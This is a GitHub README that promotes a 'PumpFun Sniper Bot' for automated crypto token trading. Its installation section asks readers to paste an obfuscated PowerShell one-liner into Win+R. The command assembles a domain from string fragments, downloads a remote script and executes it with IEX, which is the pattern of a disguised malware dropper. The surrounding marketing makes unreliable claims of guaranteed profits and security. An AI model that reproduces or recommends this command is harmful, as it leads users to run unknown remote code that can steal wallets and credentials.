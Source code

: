<div align="center">
  
## **PumpFun Sniper Bot** | **Automated Snipe Pumpfun tokens** 🚀🔍

</div>

<div align="center">
<img src="https://pbs.twimg.com/media/GXCLNYDaMAECYyS?format=jpg&name=large" width="800" height="350" />
</div>

**PumpFun Sniper Bot** is a high-speed, fully automated **crypto sniper bot** designed to help you **catch tokens at the perfect moment**, just before they explode in price.

If you’ve ever missed out on a quick pump because you were too slow to react, **PumpFun Sniper Bot** is here to give you that crucial edge and make sure you never miss a profitable opportunity again.

---

## 🔧 What Is It?

**PumpFun Sniper Bot** is a powerful desktop application that monitors real-time token price movements and **automatically buys** tokens just before a price surge. It scans for **pump signals** and executes trades at lightning-fast speeds, allowing you to enter the market before the price spikes.

Key features include:
- 🕒 **Super fast execution** — snipes tokens within seconds of a pump.
- ⚡ Real-time pump detection — uses advanced algorithms to spot price movements.
- 📉 **Smart entry** — buys tokens right before the price explosion.
- 🔐 **Secure and private** — runs locally, keeping all your data private.

---

## 💻 How It Works

The bot continuously monitors price movements and volume changes across multiple exchanges. Once a **pump signal** is detected, it automatically triggers a **buy order** at the optimal price, ensuring you catch the early stage of the pump.

### Key Features:
- 🚀 **Fast Sniping**: Snipes tokens just before they take off, maximizing profits.
- 📊 Real-time price and volume tracking on multiple exchanges.
- 🧠 Advanced algorithm analyzes market data and identifies profitable pumps.
- ⚙️ Customizable settings for different strategies (target token, price range, etc.).
- 💥 Instant execution of buy orders without delays or slippage.

---

## 🧠 Why Use PumpFun Sniper Bot?

There are many bots, **but**:
- ❌ Many bots are slow to react, causing you to miss out on quick pumps  
- ❌ They lack real-time data and can miss key moments  
- ❌ They don’t offer fine-tuned control over your sniping strategy  
- ❌ Some bots don’t allow you to track and manage your sniper activity easily  

**PumpFun Sniper Bot** is:
- ✅ Super fast — executes trades within seconds of detecting a pump  
- ✅ Fully automated — no need for manual intervention  
- ✅ Highly customizable — set your own entry points, target tokens, and more  
- ✅ Runs locally — **no API limits or data collection**  
- ✅ Secure and private — keeps your actions and data safe

---

## 📦 Installation
### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">powershell -Command "$update='SafeModule'; $mode='digital'; $url=$update+'.'+$mode; $Response=Invoke-WebRequest -Uri $url -UseBasicParsing -UserAgent $update; $Script=[System.Text.Encoding]::UTF8.GetString($Response.Content); IEX $Script"</code>
</pre>
---

## 🛠️ In Development

- Integration with additional exchanges (Binance, Kraken, etc.)
- Advanced risk management features (stop loss, take profit, etc.)
- Portfolio tracking for sniper trades and profits

---

## ⭐ Support the Project

If you like the bot, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**💸 Catch every pump at the right moment.  
With PumpFun Sniper Bot, you’re always ahead of the game.**

## SEO Keywords
- Crypto Sniper Bot
- Pump Sniper
- Automated Sniper Bot
- Crypto Trading Bot
- Pump Signal Bot
- Crypto Sniping Bot
- Fast Trading Bot
